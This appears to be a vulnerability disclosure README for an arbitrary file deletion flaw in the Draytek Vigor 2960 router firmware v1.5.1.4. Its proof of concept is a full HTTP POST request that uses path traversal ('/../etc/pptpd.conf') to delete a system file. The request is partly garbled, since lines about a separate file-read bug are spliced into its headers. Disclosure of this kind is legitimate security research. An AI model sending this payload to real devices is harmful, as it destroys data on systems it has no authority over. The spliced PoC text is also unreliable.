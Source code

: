 # Draytek vigor 2960 v1.5.1.4 has arbitrary file deletion vulnerability

## OverView

Product: Draytek Vigor 2960 v1.5.1.4(the newest version)
Firmware: v1.5.1.4 https://fw.draytek.com.tw/Vigor2960/Firmware/v1.5.1.4/Vigor2960_v1.5.1.4.zip

## Detail  

It doesn’t filter var opion , so we can use /../ to path traversal. As a result, it will delete the specific file.
You can see the screenshot. The file etc/pptpd.conf is disappear, after we send poc.

![image-20230225143920382](images/image-20230225143920382.png)

## poc 

```
POST /cgi-bin/mainfunction.cgi HTTP/1.1
Host: xxxxxxxx
Content-Length: 63
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36
(KHTML, like Gecko) Chrome/105.0.0.0 Safari/537.36
Content-Type: application/x-www-form-urlencoded
sub_1DF14 contains arbitrary file read vulnerability
It doesn’t filter the var option , so we can use /../ to read arbitrary file.
Accept: */*
Origin: xxxxxxx
Referer: xxxxxx
Accept-Encoding: gzip, deflate
Accept-Language: en,zh-CN;q=0.9,zh;q=0.8
Cookie: SESSION_ID_VIGOR=7:26EB81E4EA6DC603661320EBD1C938DC
Connection: close
action=dumpSyslog&option=/../etc/pptpd.conf&rtick=1663484341535
```

![image-20230225144024082](images/image-20230225144024082.png)
